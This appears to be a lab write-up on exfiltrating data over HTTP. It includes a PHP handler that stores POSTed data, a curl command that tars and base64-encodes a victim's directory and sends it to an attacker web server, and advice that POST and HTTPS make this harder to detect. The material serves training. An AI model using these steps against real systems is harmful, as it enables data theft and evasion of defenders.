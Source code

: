 # Data exfiltration over HTTP

It is challenging to detect for the blue team if using the POST HTTP method in the data exfiltration (with the GET 
request, all parameters are registered into the log file).

* POST requests are never cached
* POST requests do not remain in the browser history
* POST requests cannot be bookmarked
* POST requests have no restrictions on data length

To exfiltrate data over the HTTP protocol:

* An attacker sets up a web server with a data handler (`web.thm.com` and a `contact.php` page as a data handler).
* A C2 agent or an attacker sends the data (using the `curl` command).
* The webserver receives the data and stores it (`contact.php` receives the POST request and stores it into `/tmp`).
* The attacker logs into the webserver to have a copy of the received data.

The `contact.php` in `/var/www/html` on `web.thm.com` to handle POST requests via a file parameter and storing the received data in the `/tmp` directory as 
`http.bs64` file name:

```text
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

From the jumphost `ssh` into the `victim1.thm.com` machine with the given credentials:

    thm@jump-box:~$ ssh thm@victim1.thm.com

Check the data:

    thm@victim1:~$ ls -l

Send POST data via curl:

    thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php

From the victim1 or jump machine, log in to the webserver, `web.thm.com`, and check the `/tmp` directory:

    thm@victim1:~$ ssh thm@web.thm.com 
    thm@web:~$ ls -l /tmp/

Fix the broken `http.bs64` file (broken due to the URL encoding over HTTP). Using the sed command, replace the spaces 
with `+` characters to make it a valid `base64` string:

    thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64

Restore the data:

    thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -

## HTTPS communications

One of the benefits of HTTPS is encrypting the transmitted data using SSL keys stored on a server. 
Apply the same technique as used for HTTP on a web server with SSL enabled, all transmitted data will be encrypted.  
